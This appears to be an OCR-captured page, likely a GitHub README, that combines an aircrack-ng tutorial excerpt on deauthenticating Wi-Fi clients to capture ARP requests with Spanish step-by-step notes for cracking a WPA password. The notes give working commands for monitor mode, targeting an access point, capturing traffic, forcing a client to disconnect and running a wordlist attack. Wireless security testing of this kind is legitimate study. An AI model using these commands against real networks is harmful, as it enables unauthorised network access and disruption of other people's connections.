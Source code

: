 Most operating systems clear the ARP cache on disconnection. If they want to send the next packet after reconnection (or just use DHCP), they have to send out ARP requests. So the idea is to disconnect a client and force it to reconnect to capture an ARP-request. A side-effect is that you can sniff the ESSID and possibly a keystream during reconnection too. This comes in handy if the ESSID of your target is hidden, or if it uses shared-key authentication.

Keep your airodump-ng and aireplay-ng running. Open another window and run a [deauthentication](https://www.aircrack-ng.org/doku.php?id=deauthentication "deauthentication") attack:

aireplay-ng --deauth 5 -a 00:01:02:03:04:05 -c 00:04:05:06:07:08 wlan0mon

-a is the BSSID of the AP, -c the MAC of the targeted client.

Wait a few seconds and your ARP replay should start running.

Most clients try to reconnect automatically. But the risk that someone recognizes this attack or at least attention is drawn to the stuff happening on the WLAN is higher than with other attacks.

# Further tools and information

More tutorials can be found on [this page](https://www.aircrack-ng.org/doku.php?id=tutorial "tutorial").





paso1  modo monitor


airmon-ng start wlan0



paso2 ver las redes disponibles

airodump-ng wlan0mon

paso3 elegir una

airodump-ng -c 11 --bssid 00:01:02:03:04:05 -w dump wlan0mon

paso4  crackear la pass

aircrack-ng -b 00:01:02:03:04:05 dump-01.cap -w diccionario.txt

(para hacerlo mas rapido desautentica a alguien)

aireplay-ng --deauth 5 -a 00:01:02:03:04:05 -c 00:04:05:06:07:08 wlan0mon



crackea la pass 

aircrack-ng -b 00:01:02:03:04:05 dump-01.cap -w diccionario.txt

